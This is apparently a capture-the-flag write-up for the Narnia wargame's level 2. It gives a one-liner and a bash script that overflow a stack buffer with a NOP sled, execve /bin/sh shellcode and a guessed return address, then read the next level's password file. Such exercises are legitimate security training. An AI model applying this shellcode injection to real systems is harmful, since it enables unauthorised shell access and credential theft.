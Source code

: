 ### Implementation

We can simply run this as a one-line to get a shell:

```
/narnia/narnia2 $(printf "\x90%.0s" {1..115} && printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" && printf "\xc0\xd8\xff\xff")
```

We can also get the password nicely from one script:

```bash
#!/bin/bash

# Shellcode that will open us a shell
EGGSHELL="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"

# NOP sled
NOP_SLED=$(printf "\x90%.0s" {1..115})

# Pointer to where we think the NOP sled will be in memory
NOP_SLED_POINTER="\xc0\xd8\xff\xff"

# Complete exploit to put in memory
EXPLOIT_ARGUMENT=$(printf "$NOP_SLED$EGGSHELL$NOP_SLED_POINTER")

# Command we want to run once given shell
printf "cat /etc/narnia_pass/narnia3" | \

# Pass to the exploitable program
/narnia/narnia2 $EXPLOIT_ARGUMENT
```
